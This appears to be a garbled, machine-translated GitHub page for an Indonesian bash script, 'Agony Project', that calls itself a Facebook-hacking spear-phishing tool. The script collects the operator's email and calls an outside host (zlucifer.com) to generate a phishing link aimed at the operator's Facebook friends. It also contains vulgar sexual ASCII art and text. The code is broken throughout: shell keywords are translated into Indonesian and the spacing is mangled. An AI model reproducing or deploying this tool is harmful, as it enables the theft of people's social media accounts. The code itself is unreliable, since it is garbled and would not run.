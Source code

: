 # RetasFb
Coba bege wa
#! / bin / bash
# ///////////////////////////////////////////////// ////////////////////////////////
# ///////////////////////////////////////////////// ////////////////////////////////
# //// _ _ __ ////
# //// | | (_) / _ | ////
# //// ___ | | _ _ ___ _ | | _ ___ _ __ ////
# //// | _ / | | | | / __ | | _ / _ \ '__ | ////
# //// / / | | | _ | | (__ | | || __ / | ////
# //// / ___ | _ | \ __, _ | \ ___ | _ | _ | \ ___ | _ | ////
# //// ////
# ///////////////////////////////////////////////// ////////////////////////////////
# ///////////////////////////////////////////////// ////////////////////////////////
# PERINGATAN: Kontol adalah sebuah benda di mana kita bisa memainkannya dengan leluasa
Tanpa harus ada izin dari orang lain :)
penderitaan () {
      bersih
      gema  "          ,. * ====. '..' . ==== *., "
      tidur 0,03
      echo  "         .- / c)}}},: ...:, {{{(c \ -. "
      tidur 0,03
      echo  "     _.-'- 6> {{{{{{'' '' '}}}}} <9 -'-._ "
      tidur 0,03
      gema  "    t |}}}}}} {{{{{{| y "
      tidur 0,03
      echo  "     \ __.___. '{{{{{{{}}}}}}}' .___.__ / "
      tidur 0,03
      echo  "          [__ /}}}}}}}} {{{{{{{\ __]   "
      tidur 0,03
      echo  "          {{{. ' '-._ _.-' '.}}} "
      tidur 0,03
      gema  "          }} / \ {{ "
      tidur 0,03
      echo  "          {{KONTOL KUDA}}} "
      tidur 0,03
      echo  "          }} | ============= {{{ "
      tidur 0,03
      gema  "   .------ {{{\,, /}}} ------. "
      tidur 0,03
      echo  " //.-------- ';;' ---------. \\  "
      tidur 0,03
      gema  " ((/// _ \ / _   \\ \)) "
      tidur 0,03
      gema  " (((- '' '-------' '' ----- '' '-------' '' -))) "
      tidur 0,03
}
memuat () {
      echo -e " \ n "
      bar = " >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "
      barlength = $ { # bar}
      i = 0
      while (( i < 100 )) ;  melakukan
          n = $ (( i * barlength /  100 ))
          printf  " \ e [00; 32m \ r [% - $ {barlength} s] \ e [00m "  " $ {bar : 0 : n} "
          (( i + = ACAK % 5 + 2 ))
          tidur 0,2
      selesai
}
encrypt_mail = $ ( curl -s http://zlucifer.com/api/hackbae.php ? request = agony )
mulai () {
      bersih
      kesakitan
      echo  " ================================================ = "
      echo  " Syarat korban harus berteman dengan akun FB anda
MASUK DENGAN AKUN FACEBOOK ANDA "
      baca email
      gema
      echo  " Apakah Akun  " $ email  " sudah benar? "
      gema  " y / n? "
      baca cek_email
      if [ $ cek_email  =  " y " ] ;  kemudian
            bersih
            echo  " Membuat tautan .. "
            beban
            kesakitan
            buat = ` curl -s $ encrypt_mail /base64_maker.php ? email = $ email `
            echo  " ================================================ = "
            echo -e $ create
            echo  " Hasil otomatis masuk ke CHATING FB anda "
            echo  " ================================================ = "
      lain
            mulai
      fi
}
bersih
gema  " Memuat .. "
beban
kesakitan
echo  " ================================================ = "
echo Selamat datang kak, Siapa nick kaka ?  # tulisan keluar
baca nick # membaca yang ditulis
bersih
kesakitan
echo  " ================================================ = "
tidur 2
echo  " Agony Project adalah alat untuk meretas Facebook "
tidur 0,2
echo  "    Alat ini adalah metode Spear Phising "
tidur 0,2
echo  "             Menggunakan teknik 18+ "
tidur 0,2
echo  "        Hasil otomatis masuk ke email kamu "
tidur 0,03
echo  " ================================================ = "
echo Selamat datang $ nick  " :) "
gema
echo  " Mulai Proyek Penderitaan? "
gema  " y / n? "
baca mulai
if [ $ mulai  =  " y " ] ;  kemudian
      bersih
      echo  " Memulai Retas FB kentot .. "
      beban
      mulai
lain
